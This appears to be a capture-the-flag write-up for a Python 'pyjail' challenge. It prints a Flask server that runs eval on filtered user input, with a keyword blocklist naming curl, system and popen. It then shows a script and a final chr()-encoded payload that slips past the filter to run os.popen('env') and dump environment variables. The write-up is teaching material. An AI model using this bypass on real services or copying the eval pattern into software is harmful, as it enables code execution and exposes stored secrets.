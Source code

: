 
<h1>Break the system, Destroy it</h1>

<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture13.PNG>

In this challenge we got a pyjail to break.It has this source code:
```py
#!/usr/bin/python3
from flask import Flask, request, render_template
import string
import subprocess
import re

app = Flask(__name__)


def filter(command):
    blacklist = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
    blacklist.extend([" ", ".", "(", ")", "+"])

    if re.search(
        "(system)|(curl)|(flag)|(subprocess)|(popen)|(import)|(global)|(class)",
        command,
        re.I,
    ):
        return True
    for c in command:
        if c not in blacklist:
            return True


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "GET":
        return render_template("index.html")
    else:
        command = request.form.get("command", "")
        if command != "":
            if filter(command):
                return "You can't break reality without a command"
            else:
                try:
                    command = eval(command)
                    return str(command)
                except subprocess.CalledProcessError:
                    return "Error"
                except:
                    return "Error"
        else:
            return render_template("index.html")


app.run(host="0.0.0.0", port=8000)
```


i tried alot of methods but this method worked well for me:
```
a="__import__('os').popen('env').read()"
l=[]
for i in a:
    l.append(f"+chr({ord(i)})")

for i in l:
    print(i,end='')
```

and we found the flag in the user enviroment:
```
eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(112)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(101)+chr(110)+chr(118)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41))
```
